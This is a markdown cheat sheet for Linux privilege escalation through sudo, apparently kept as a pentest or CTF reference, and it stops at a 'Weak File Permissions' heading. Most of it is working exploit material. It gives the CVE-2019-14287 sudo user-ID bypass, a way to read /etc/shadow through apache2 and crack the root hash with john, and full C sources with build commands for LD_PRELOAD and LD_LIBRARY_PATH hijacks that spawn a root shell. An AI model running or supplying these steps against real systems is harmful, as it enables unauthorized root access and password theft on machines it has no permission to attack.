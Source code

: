 # Privilege-Escalation ✅📚
## sudo ✅📚
[**GTFOBins**](https://gtfobins.github.io/)
### Shell Escape Sequences ✡️
```bash
sudo -l
```
#### If "(ALL, !root)" existed. 🔆
```bash
# CVE-2019-14287 (sudo versions < 1.8.28) -- 1.8.28 fixed
sudo -u#-1 /usr/bin/<somecommand> # go to # https://gtfobins.github.io/#
```
#### If "/usr/sbin/apache2" existed. 🔆
```bash
sudo apache2 -f /etc/shadow # read line 1 (root-hash)
echo '[Pasted Root Hash]' > hash.txt
john --wordlist=/usr/share/wordlists/wordlist hash.txt
```
### Environment Variables ✡️
```note
Run "ldd" against the any program file to see which shared libraries are used by the program.
```
#### If "env_keep+=LD_PRELOAD" existed. 🔆
```bash
nano /tmp/preload.c ⬇️⬇️⬇️⬇️
---------------------
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
---------------------
gcc /tmp/preload.c -fPIC -shared -nostartfiles -o /tmp/preload.so 
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
#### If "env_keep+=LD_LIBRARY_PATH" existed. 🔆
```bash
ldd /usr/sbin/apache2 #  libcrypt.so.1 => /lib/libcrypt.so.1 
nano /tmp/library_path.c ⬇️⬇️⬇️⬇️
---------------------
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
---------------------
gcc  /tmp/library_path.c -fPIC -shared -o /tmp/libcrypt.so.1 
sudo LD_LIBRARY_PATH=/tmp apache2
```
## Weak File Permissions ✅